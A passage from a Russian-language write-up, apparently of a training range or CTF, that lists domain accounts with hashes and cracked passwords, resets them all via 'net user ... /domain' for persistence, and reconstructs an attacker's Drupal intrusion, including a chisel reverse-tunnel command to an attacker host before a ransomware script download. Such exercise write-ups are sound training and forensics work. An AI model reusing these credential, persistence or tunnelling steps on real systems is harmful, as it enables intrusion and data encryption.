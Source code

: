 Приводим также некоторые из паролей пользователей (из CrackStation):

| Пользователь  | Хеш                                | Пароль        |
| ------------- | ---------------------------------- | ------------- |
| Administrator | `77ea8af149e98b6e0858308e121ac91f` | `monkey#1`    |
| Exch_srv      | `077cccc23f8ab7031726a3b70c694a49` | `Passw0rd123` |
| ivanov        | `ae974876d974abd805a989ebead86846` | `P@ssw0rd1`   |
| petrov        | `c9ab9d08cc7da5a55d8a82d869e01ea8` | `P@ssw0rd2`   |
| sidorov       | `6be408f1e80386822f4b2052f1f84b4e` | `P@ssw0rd3`   |
| kuzmin        | `766b62d3db023f90443469d86393ca66` | `P@ssw0rd4`   |
| markov        | `5e5c04a4181fcffa0bf8c1034c5e30a6` | `P@ssw0rd5`   |
| fedorov       | `80a7af13ca4fac620bb29e97565ba4a1` | `P@ssw0rd6`   |
| frolov        | `61577195ec3fe96ca0ee84a1e32bb539` | `P@ssw0rd7`   |
| borisov       | `4c67802c279237004ec84f3f9236ce84` | `P@ssw0rd8`   |


Поменяем пароли пользователей через Active Directory на ```Cha1nedRules1!``` для успешного закрпеления на машинах и удобного взаимодействия.
```
net user USERAME Cha1nedRules1! /domain
```
## Расследование атаки

Считаем, что наши действия по проникновению в сеть аналогичны действиям злоумышленника. Имея полный доступ, можно начинать расследование атаки.

### Действия в DMZ

Проникновение началось с получения версии Drupal. 
![](https://i.imgur.com/6S2ZHD5.png)

После было проведено сканирование.
![](https://i.imgur.com/ZXo5dCq.png)

Дальнейшие действия по проникновению аналогичны нашим (drupalgeddon), см. выше.

При первом проникновении на  `10.39.2.11` обнаруживаем зашифрованные файлы `.php`, эксплоит для повышения привилегий и утилиту для проброски портов. В `.bash_history` сохранились команды, выполненные на сервере. Восстановим последовательность действий по запуску шифровальщика.

1) С помощью chisel злоумышленник подключился к своему серверу, чтобы пробросить порт 80.
```
 # chisel client 10.39.200.50:8083 R:socks
```

2) С `10.39.200.50` был загружен скрипт `encr.sh`, которыми были зашифрованы файлы на сервере. Приводим полный код ниже.

